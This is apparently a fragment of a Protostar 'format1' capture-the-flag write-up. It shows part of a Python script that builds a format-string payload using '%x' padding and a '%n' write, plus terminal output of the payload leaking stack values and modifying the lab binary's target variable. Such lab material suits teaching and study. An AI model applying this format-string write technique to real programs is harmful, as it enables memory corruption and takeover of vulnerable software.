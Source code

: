 ```
        exploit += "_%x"

if is_time_to_exploit:
        exploit += "_%n"
        num_Dwords += 1

remaining_len = total_length - (num_Dwords * 3)

assert remaining_len >= 0

for i in range(remaining_len):
        exploit += "_"

print exploit

```
```
user@protostar:/opt/protostar/bin$ cat /home/user/format1 | xargs ./format1
8�8�AAAA_804960c_bffff508_8048469_b7fd8304_b7fd7ff4_bffff508_8048435_bffff6ec_b7ff1040_804845b_b7fd7ff4_8048450_0_bffff588_b7eadc76_2_bffff5b4_bffff5c0_b7fe1848_bffff570_ffffffff_b7ffeff4_804824d_1_bffff570_b7ff0626_b7fffab0_b7fe1b28_b7fd7ff4_0_0_bffff588_10712307_3a237517_0_0_0_2_8048340_0_b7ff6210_b7eadb9b_b7ffeff4_2_8048340_0_8048361_804841c_2_bffff5b4_8048450_8048440_b7ff1040_bffff5ac_b7fff8f8_2_bffff6e2_bffff6ec_0_bffff8d7_bffff8ec_bffff903_bffff91b_bffff929_bffff93d_bffff95f_bffff976_bffff989_bffff993_bffffe83_bffffe9c_bffffeda_bffffeee_bfffff0c_bfffff23_bfffff34_bfffff4f_bfffff57_bfffff67_bfffff74_bfffffa7_bfffffbb_bfffffcf_bfffffe1_0_20_b7fe2414_21_b7fe2000_10_78bf3bf_6_1000_11_64_3_8048034_4_20_5_7_7_b7fe3000_8_0_9_8048340_b_3e9_c_0_d_3e9_e_3e9_17_1_19_bffff6cb_1f_bffffff2_f_bffff6db_0_0_d9000000_81e0d88d_553c77cd_85e7caab_69b3867c_363836_2f2e0000_6d726f66_317461_8049638_______________________________________________________________________you have modified the target :)
```
